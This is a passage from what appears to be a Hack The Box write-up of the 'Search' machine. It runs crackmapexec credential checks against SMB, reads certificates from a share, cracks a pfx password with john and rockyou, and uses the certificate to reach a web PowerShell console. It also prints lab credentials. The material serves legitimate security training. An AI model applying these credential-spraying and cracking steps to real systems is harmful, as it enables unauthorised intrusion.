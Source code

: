 Save it and zip all files 

- `zip newfile.xlsx -r .`

Now open it and we can view the colum C

![Untitled](https://github.com/InfoSec-Crow/Writeups/blob/main/htb/machines/Search/creds.png)

Create a ph_passwords.txt and a ph_users.txt file, to check, witch username and password pair is valide.

- `crackmapexec smb search.htb -u ph_users.txt -p ph_passwords.txt --no-bruteforce`

```
SMB search.htb 445 RESEARCH [+] search.htb\Sierra.Frye:$$49=wide=STRAIGHT=jordan=28$$18
```

`Sierra.Frye : $$49=wide=STRAIGHT=jordan=28$$18`

We can now read the smb share from the user.

→ user.txt 

# Priv Esc

## Get Certivicat

We find a cert in the SMB share `RedirectedFolders$\sierra.frye\Downloads\Backups\`

```
search-RESEARCH-CA.p12             Ac     2643  Fri Jul 31 17:04:11 2020
staff.pfx                          Ac     4326  Mon Aug 10 22:39:17 2020
```

- `smbclient -U sierra.frye //search.htb/RedirectedFolders$/`

### Cracking

- `/usr/share/john/pfx2john.py staff.pfx  > certhash`
- `john -w=/usr/share/wordlists/rockyou.txt certhash`

Web: `sierra.frye : misspissy`

### Add Cert in Browser

Serach for Security in Settings

![Untitled](https://github.com/InfoSec-Crow/Writeups/blob/main/htb/machines/Search/web_cert.png)

Now we can go to `https://search.htb/staff`

![Untitled](https://github.com/InfoSec-Crow/Writeups/blob/main/htb/machines/Search/web_access.png)

We have now a Powershell. 

## Bloodhound
